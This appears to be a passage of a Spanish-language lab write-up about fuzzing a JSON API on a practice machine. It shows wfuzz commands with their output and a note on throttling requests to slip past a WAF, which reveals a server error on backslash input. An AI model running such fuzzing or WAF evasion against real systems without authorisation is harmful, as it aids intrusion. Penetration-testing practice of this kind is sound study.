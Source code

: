 ```bash
❯ wfuzz -c -X POST -t 100 -w /opt/SecLists/Fuzzing/special-chars.txt -H 'Content-Type: application/json;charset=utf-8' -d '{"name":"FUZZ"}' -u http://10.10.10.179/api/getColleagues
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.179/api/getColleagues
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000007:   403        29 L     92 W       1233 Ch     "^"                                                                                                                    
000000015:   403        29 L     92 W       1233 Ch     "="                                                                                                                    
000000003:   403        29 L     92 W       1233 Ch     "@"                                                                                                                    
000000001:   403        29 L     92 W       1233 Ch     "~"                                                                                                                    
000000016:   403        29 L     92 W       1233 Ch     "{"                                                                                                                    
000000014:   403        29 L     92 W       1233 Ch     "+"
```

Vemos que al usar muchos hilos en la peticion el servidor nos bloquea por la existencia de un `WAF`, para ello con usos adicionaremos unos parametros `-s 1`, para que mande una peticion por segundo y ocultaremos el codigo de estado `200`

```bash
❯ wfuzz -c -X POST --hc=200 -s 1 -w /opt/SecLists/Fuzzing/special-chars.txt -H 'Content-Type: application/json;charset=utf-8' -d '{"name":"FUZZ"}' -u http://10.10.10.179/api/getColleagues
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.179/api/getColleagues
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000004:   403        29 L     92 W       1233 Ch     "#"                                                                                                                    
000000021:   500        0 L      4 W        36 Ch       "\"                                                                                                                    
000000028:   403        29 L     92 W       1233 Ch     ":"                                                                                                                    
000000029:   403        29 L     92 W       1233 Ch     "'"                                                                                                                    
000000030:   403        29 L     92 W       1233 Ch     """                                                                                                                    
000000031:   403        29 L     92 W       1233 Ch     "<"                                                                                                                    
```